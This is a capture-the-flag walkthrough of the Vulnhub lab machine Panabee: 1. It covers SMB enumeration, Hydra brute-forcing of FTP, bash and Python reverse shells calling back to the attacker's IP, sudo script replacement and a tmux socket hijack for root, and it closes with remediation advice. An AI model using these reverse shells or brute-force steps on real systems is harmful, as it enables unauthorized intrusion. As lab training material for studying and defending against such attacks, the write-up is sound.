


# Panabee: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.0.165 |
| **Attacker IP** | 192.168.0.147 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | root flag (`/root/proof.txt`) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/panabee-1-vulnhub-walkthrough/) |

## Attack Summary

Panabee: 1 exposes FTP, SSH, SMTP, HTTP, and SMB. The attack begins with SMB enumeration to find a note exposing a username (`goper`), followed by FTP brute-force with Hydra to obtain credentials. A Python status script in goper's home directory is leveraged for lateral movement to `jenny` via sudo. Process monitoring with pspy reveals a root-owned tmux session, which is hijacked using the exposed socket to obtain a root shell.

## Methodology

1. Network scanning (Nmap)
2. SMB enumeration (smbclient)
3. FTP brute-force (Hydra)
4. FTP access — arbitrary file upload into backed-up home directory
5. Reverse shell as `goper`
6. Lateral movement to `jenny` via sudo + status.py replacement
7. Process enumeration with pspy
8. tmux socket hijack for root

## Step 1: Reconnaissance

```bash
nmap -p- -A 192.168.0.165
```



Open ports:
- **21/tcp** — FTP
- **22/tcp** — OpenSSH
- **25/tcp** — SMTP (Postfix)
- **80/tcp** — HTTP (Apache default page)
- **139/tcp, 445/tcp** — SMB (Samba)

## Step 2: SMB Enumeration

```bash
smbclient -L \\\\192.168.0.165
```

A share named `note` is visible. Connect and retrieve the file:

```bash
smbclient \\\\192.168.0.165\\note
smb: \> ls
smb: \> get note.txt
smb: \> exit

cat note.txt
```



The note is addressed to user `goper` and mentions the server backs up files from goper's home directory. This indicates a writable, auto-executing home directory.

## Step 3: FTP Brute-Force with Hydra

```bash
hydra -l goper -P /usr/share/wordlists/rockyou.txt \
  192.168.0.165 ftp -t 4
```

**Credentials found:** `goper : spiderman`

## Step 4: FTP Enumeration

```bash
ftp 192.168.0.165
# Username: goper
# Password: spiderman

ftp> ls
ftp> get status.py
ftp> bye

cat status.py
```

`status.py` is a Python script that pings a host and writes the status to jenny's home directory. It runs as `jenny` via sudo.

## Step 5: Reverse Shell via Backed-Up Home Directory

Create a reverse shell script:

```bash
cat > backup.sh << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/192.168.0.147/8080 0>&1
EOF
```

Start a listener:

```bash
nc -lvp 8080
```

Upload via FTP:

```bash
ftp 192.168.0.165
# Username: goper
# Password: spiderman

ftp> put backup.sh
ftp> bye
```

The home directory backup mechanism executes `backup.sh`. A shell arrives as `goper`.


Upgrade the shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

## Step 6: Lateral Movement — goper → jenny

```bash
sudo -l
# (jenny) NOPASSWD: /usr/bin/python3 /home/goper/status.py
```

Replace `status.py` with a Python reverse shell:

```bash
cat > /tmp/status.py << 'EOF'
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.147", 8888))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])
EOF
```

Upload the new script via FTP:

```bash
ftp 192.168.0.165
# goper : spiderman

ftp> put /tmp/status.py status.py
ftp> chmod 777 status.py
ftp> bye
```

Start a listener on port 8888:

```bash
nc -lvp 8888
```

Execute as jenny:

```bash
sudo -u jenny /usr/bin/python3 /home/goper/status.py
```

Shell received as `jenny`.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Step 7: Process Enumeration with pspy

```bash
cd /tmp
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
chmod +x pspy64
./pspy64
```


pspy output reveals a root-owned tmux process with a socket under `/opt`. The shell history confirms a shared tmux session:

```
tmux -S /opt/.tmux-0/sockets/default
```

## Step 8: tmux Socket Hijack → Root

```bash
export TERM=xterm
tmux -S /opt/.tmux-0/sockets/default attach
```


A root shell is obtained by attaching to the existing tmux session.

```bash
id
# uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
cat proof.txt
```

## Credentials Summary

| User | Service | Password |
|---|---|---|
| `goper` | FTP / SSH | `spiderman` |

## Lessons Learned

1. **SMB shares with readable files** are a common first step in network enumeration — always check for readable guest or anonymous shares.
2. **Home directory backup mechanisms** that are user-writable create arbitrary code execution if the backup target is automatically executed by a higher-privileged process.
3. **sudo rules pointing to user-writable scripts** are a direct privilege escalation path — the sudoers policy should reference immutable, root-owned files.
4. **pspy** is essential for detecting processes invisible to standard `ps` output that run as other users — especially cron and tmux sessions.
5. **tmux socket file permissions** must be restricted. A world-readable or group-accessible socket allows any user with access to the socket file to attach to the session and gain that user's privileges.

## Remediation

| Vulnerability | Fix |
|---|---|
| Readable SMB share with sensitive notes | Restrict share permissions; do not store usernames or operational details in files on SMB shares |
| Weak FTP password | Enforce strong password policy; disable FTP if not required; prefer SFTP |
| Writable home directory backed up and auto-executed | Audit backup mechanisms; do not auto-execute files from user-controlled locations |
| Sudo to user-writable script | Set proper ownership (root) and permissions (750) on scripts called via sudo |
| tmux socket world-accessible | Ensure tmux sockets are created in user-private directories with mode 0600 |
